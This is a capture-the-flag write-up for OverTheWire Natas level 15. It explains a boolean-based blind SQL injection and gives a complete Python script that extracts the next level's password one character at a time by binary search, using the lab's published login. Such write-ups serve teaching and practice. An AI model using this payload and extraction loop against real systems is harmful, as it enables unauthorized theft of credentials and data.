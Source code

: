# Analyze
It's a simple SQL Injection as we examing the source code:

```php
$query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
```
And since we can only receive True/False from the server, we need `Boolean-based SQL Injection`.

So we need a SQL sentence like below:
```sql
SELECT * from users where username="natas16" and password=...
```
We will find out the password one digit at a time, by using:
- `SUBSTR()` to choose a digit at the specified position
- `ASCII()` to get the ascii-code of that digit
- `<=` to narrow the scope.

Here's the pay load below:
```py
payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
```
Where 'this' is the ascii code number to try this time, 'i' is the position of password that will be tested.

After that, we just needs to find whether there's "This user exists." in the response content, and determine whether our a ssumptions ('this') works.

# Solution
The complete Python code is as below. Please change the password for natas15 if a long time has passed.
```py
import requests

def test(i):
    url = "http://natas15.natas.labs.overthewire.org/index.php"

    l = 0
    r = 128

    # [l, r)
    while r - l > 1:
        this = (r+l)//2
        payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
        res = requests.post(url, {"username": payload}, auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'))
        res = res.text.find('This user exists.') != -1
        if res:
            # target >= this
            l = this
        else:
            r = this

    return l

flag=""
for i in range(1, 64):
    flag += chr(test(i))
    print(flag)
```
